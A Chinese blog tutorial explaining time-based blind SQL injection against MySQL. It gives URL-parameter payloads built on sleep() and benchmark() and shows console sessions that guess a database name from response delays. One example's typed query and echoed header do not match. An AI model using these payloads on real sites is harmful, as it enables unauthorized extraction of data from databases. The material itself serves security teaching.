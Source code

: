 ```yaml
---
draft: false
date: 2016-06-24 10:10:27
title: SQL 注入之基于时间的注入(MySQL)
description: 基于时间的 SQL 注入
categories:
  - Pentest
tags:
  - SQL注入
---
```


### 0x00 特点
```
当页面存在注入，但是没有显示位且不管怎么测试返回页面都没有变化，此时可以使用基于时间的盲注进行注入。
其实只要存在SQL注入就可以使用基于时间的盲注，利用范围比较广泛，但是可能受到网络带宽等因素的影响。
```

### 0x01 利用方式
```
整型注入的话可以直接: ?id=if(1=1,sleep(2),1)
字符型的话需要闭合: ?id=2' and if(1=1,sleep(2),1) and '1
```

### 0x02 相关函数
* if(条件, 值1, 值2)  
当条件为真时返回值1，条件为假时返回值2

* sleep()  
sleep(2)睡眠两秒

* benchmark(count, expr)  
benchmark是用于测试函数性能的，它是将表达式expr执行count次，执行次数越多耗费时间越久

### 0x03 基于时间的注入payload
```
mysql> select if((select database()) like "rte%",sleep(2),666);
+---------------------------------------------------+
| if((select database()) like "rte%",sleep(2),666)  |
+---------------------------------------------------+
|                                                 0 |
+---------------------------------------------------+
1 row in set (2.00 sec)

mysql> select if((select database())="rteaaa",sleep(2),666);
+-----------------------------------------------+
| if((select database())="rtest1",sleep(2),666) |
+-----------------------------------------------+
|                                           666 |
+-----------------------------------------------+
1 row in set (0.00 sec)

mysql> select if((select database())="rtest",sleep(2),666);
+----------------------------------------------+
| if((select database())="rtest",sleep(2),666) |
+----------------------------------------------+
|                                            0 |
+----------------------------------------------+
1 row in set (2.00 sec)
```
```
mysql> select id,name,title from msg where id=if(1=1,benchmark(10000000,md5(11)),1);
Empty set (2.32 sec)

mysql> select id,name,title from msg where id=if(1=2,benchmark(10000000,md5(11)),1);
+----+-------+-------+
| id | name  | title |
+----+-------+-------+
|  1 | reber | first |
+----+-------+-------+
1 row in set (0.00 sec)
```

### 0x04 简单注入

1. 判断闭合字符(and 1=1／and 1=2)
![得到闭合字符](/img/post/sqli9-get-closed-character-1.png)
![得到闭合字符](/img/post/sqli9-get-closed-character-2.png)

2. 得到数据库名字
![得到数据库名字](/img/post/sqli9-get-database.png)
